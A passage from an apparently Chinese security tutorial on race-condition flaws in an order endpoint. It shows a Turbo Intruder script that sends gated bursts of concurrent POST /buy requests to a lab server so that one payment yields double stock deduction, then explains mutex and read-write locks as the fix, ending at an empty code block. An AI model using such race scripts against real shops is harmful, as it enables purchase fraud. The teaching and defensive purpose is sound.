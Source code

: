 就会导致只付了一碗粉的钱却吃了商家两碗粉。  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqeeWuE30PtXkw7Y3skMCvGWEX4jJIUFAtHAuyHicvs94pbJBTKicS5PYTc25ViafKSIyv6NkL8P30ew/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
这个红色部分就是造成漏洞的过程，可以看到库存被更新了两次  
### 如何利用？  
  
我这里使用的是BurpSuite的代理插件 Turbo  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqeeWuE30PtXkw7Y3skMCvG5liatP6Nyr79KUlPj2lVgBAGIso0aU1VJt8OiaVz59WGq5K7VWDaGbsQ/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
使用如下并发脚本:  
```
defqueueRequests(target, wordlists):    global BATCH_SIZE    BATCH_SIZE = 60    engine = RequestEngine(endpoint='http://172.16.0.96:8888',                           concurrentConnections=BATCH_SIZE,                           requestsPerConnection=100,                           engine=Engine.THREADED,                           pipeline=False,                           maxQueueSize=BATCH_SIZE                           )    req = '''POST /buy HTTP/1.1Host: 172.16.0.96:8888Connection: keep-aliveContent-Length: 51User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 NetType/WIFI MicroMessenger/7.0.20.1781(0x6700143B) WindowsWechat(0x63090c11) XWEB/11581 FlueContent-Type: application/jsonAccept: */*Origin: http://172.16.0.96:8888Referer: http://172.16.0.96:8888/Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9x:%s{"username":"testuser","product_id":1,"quantity":1}'''    for i inrange(10):        gate_id = str(i)        for x inrange(BATCH_SIZE):            engine.queue(req, '0.000', gate=gate_id)        engine.openGate(gate_id)        time.sleep(0.5)defhandleResponse(req, interesting):    xtime= req.response.split('\r\n\r\n')[1]    req.label = xtime    table.add(req)defcompleted(reqsFromTable):    diffs = []    time.sleep(1)    printlen(reqsFromTable)    for i inrange(len(reqsFromTable)):        if i % BATCH_SIZE != 0:            continue        entries = []        for x inrange(BATCH_SIZE):            entries.append(float(reqsFromTable[i+x].label))        entries.sort()        diffs.append(entries[-1] - entries[0])    diffs.sort()    print('Best: '+str(min(diffs)))    print('Mean: '+str(mean(diffs)))    print('Stddev: '+str(stddev(diffs)))    print('Median: '+str(diffs[len(diffs)/2]))    print('Range: '+str(max(diffs)-min(diffs)))    handler.setMessage(str(sum(diffs)/len(diffs)))
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqeeWuE30PtXkw7Y3skMCvGOr4pJW1mX6tEpnLjRia8rFUwiaeBLWBgwY622VpQfUhibZGSWtFicHRK7g/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
这里就出现了不止一次的成功响应  
  
那作为开发者该如何防止这种情况的发生呢？  
### 线程锁  
  
线程锁就是在同时只允许一个线程删改数据，具体实现机制分为读写锁和互斥锁，这两种锁的区别在于:  
- 读写锁就是你在一个图书馆，有很多人来借阅书籍。当有人仅仅是阅读书籍（不修改），那么多个读者可以同时进行，不会互相干扰。但如果有人想要修改或整理书籍（写操作），那么在这段时间内，所有的读者和其他写作者都必须等待。  
  
- 互斥锁就是你去上厕所，你拉完擦完屁股出来后后了别人才能拉。  
  
所以说可以看出来了吗？读写锁更加试用于读操作>>写操作，互斥锁更加适用于写操作≈读操作  
  
这里我们应该采用互斥锁来保证安全:  
```
```